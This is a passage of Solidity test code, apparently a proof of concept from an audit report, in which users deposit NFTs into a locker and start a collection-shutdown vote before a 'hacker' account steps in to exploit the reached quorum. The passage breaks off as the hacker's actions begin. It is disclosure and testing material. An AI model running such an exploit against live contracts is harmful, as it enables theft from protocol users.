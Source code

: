 ```solidity
        locker.initializeCollection(address(erc721a), 1 ether, path, path.length * 1 ether, 158456325028528675187087900672);
        vm.stopPrank();





        // To call the start() function, user2 must deposit first to get collectionTokens to vote.
        vm.startPrank(user2);

        // Approve TOKEN IDS To locker contract
        uint[] memory path2 = new uint[](10);

        uint iterations = 0;

        for(uint i = 11; i < 21; i++){
            erc721a.approve(address(locker), i);
            path2[iterations] = i;
            iterations++;
        }


        // User2 deposit and get collectionTokens in ratio 1:1
        locker.deposit(address(erc721a), path2);

        console.log("User2 CollectionToken Balance, BEFORE start a votation", CollectionToken(newCollectionToken).balanceOf(user2));



        // User2 approves CollectionTokens to the collectionShutdown contract to start a vote.
        CollectionToken(newCollectionToken).approve(address(collectionShutdown), CollectionToken(newCollectionToken).balanceOf(user2));


        // User2 calls the start() function
        collectionShutdown.start(address(erc721a));


        console.log("User2 CollectionToken Balance, AFTER start a votation", CollectionToken(newCollectionToken).balanceOf(user2));
        console.log("");



        // Check Params to calls execute() function.
        ICollectionShutdown.CollectionShutdownParams memory params = collectionShutdown.collectionParams(address(erc721a));

        console.log("shutdownVotes", params.shutdownVotes);
        console.log("quorumVotes", params.quorumVotes);
        console.log("canExecute", params.canExecute);
        console.log("availableClaim", params.availableClaim);

        vm.stopPrank();




        // Hacker sees that the quorum is reached, and decide to deposit the other token that he owns, and list it.
        vm.startPrank(hacker);
```